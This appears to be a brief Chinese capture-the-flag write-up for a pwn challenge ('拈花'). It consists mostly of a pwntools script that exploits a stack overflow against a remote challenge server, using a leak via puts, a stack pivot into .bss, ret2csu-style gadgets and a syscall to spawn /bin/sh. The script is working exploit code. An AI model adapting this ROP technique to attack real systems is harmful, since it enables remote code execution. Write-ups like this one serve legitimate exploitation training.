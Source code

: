 ### 拈花

栈溢出，直接构造

```
read(0,bss,0x3b)
system("/bin/sh")
```

payload如下

```python
from pwn import *

debug=0

context.log_level='debug'

if debug:
    p=process('./pwn11')
    #p=process('',env={'LD_PRELOAD':'./libc.so'})
    gdb.attach(p)
else:
    p=remote('111.33.164.6', 50011)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

ru('please input your name')
sl('aaa\n')
ru('Let\'s start a game,can you guess the key?')

prdi = 0x4012ab
prsi = 0x4012a9
puts = 0x0401030
bss = 0x404060+0x100
prbp = 0x401149
leave = 0x40124b

context.arch = 'amd64'
payload = 'a'*40 +p64(prdi)+p64(0x0404028)+p64(puts)
payload += flat(0x4012A2,0,1,0x404028,0,bss,0x200,0x0401288,'a'*56)
payload += flat(prbp,bss-8,leave)


se(payload)
ru('fail!\n')
p_addr = u64(ru('\n')[:-1]+'\0\0')
syscall = p_addr+0xe


payload = flat(0x4012A2,0,1,0x404028,0,bss+0x400,0x3b,0x0401288,'a'*56)
payload += flat(0x4012A2,0,1,bss+0x100,bss+0x108,0,0,0x0401288,p64(syscall))
payload = payload.ljust(0x100,'a')
payload += p64(0x04012B8)+'/bin/sh\0'

se(payload)

sleep(0.5)
```